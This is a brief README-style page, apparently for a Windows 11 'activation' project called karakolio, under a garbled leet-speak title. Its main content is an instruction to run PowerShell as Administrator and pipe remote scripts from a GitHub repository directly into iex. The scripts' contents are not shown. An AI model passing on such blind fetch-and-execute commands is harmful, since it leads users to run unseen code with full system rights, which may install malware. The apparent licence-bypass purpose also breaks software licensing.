 # karakolio Wina 11 eb3sh3 1 mn00 d4ug1 k@t0 n3g0

- [developing](https://get.activated.win/)

# Installing by using PowerShell as Administrator

```cmd
irm https://raw.githubusercontent.com/asc3t1c/karakolio/refs/heads/main/karakolio.ps1 | iex
```
- Optionally

```
irm https://raw.githubusercontent.com/asc3t1c/karakolio/refs/heads/main/karakolio.win | iex
```
